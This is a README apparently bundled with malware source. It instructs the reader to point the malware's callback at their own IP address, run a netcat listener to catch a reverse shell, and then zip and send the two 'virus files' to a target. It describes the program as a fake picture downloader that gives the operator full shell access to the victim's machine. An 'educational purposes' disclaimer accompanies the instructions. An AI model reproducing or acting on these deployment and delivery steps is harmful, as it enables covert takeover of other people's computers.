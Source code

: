 This is a bit of a complicated malware so some modifications need to be made.
========================================================================

The modifications are:

1. Set the value of the errorserver variable in the ErrorHandler64 to your IP address, which you can find by googling "what is my IP address?".

2. Set the value of the errorid to any number under 1000. we recommend 80 or 443. Remember this number.

After you are done with these steps, you have to do one more step:
You must have a linux server running this command during the execution of the virus code:
stty raw -echo; (stty size; cat) | nc -lvnp $port
replace $port in this command with the number you chose earlier.

Don't have a linux server? no problem. You can open one for free by:
1. open microsoft store
2. Search for kali linux
3. Download it
4. Open it
5. Follow the on screen instructions
6. Type sudo apt update
7. sudo apt upgrade -y
8. Done!

====================
Before sending the virus:
1. remove this file
2. zip the two virus files
3. send the zip folder

=====================

How to run the malware:
WARNING! It is strictly advised to not run the malware for your own safety.
We are not responsible for any damage caused by running of the malware.
The malware has been developed purely for educational purposes.

=============================================================

Instructions:
1. Run File Downloader.py

=========================

What the malware does:
The malware acts as a downloader of pictures, and then establishes a reverse shell with the target computer, giving you full access to their shell.
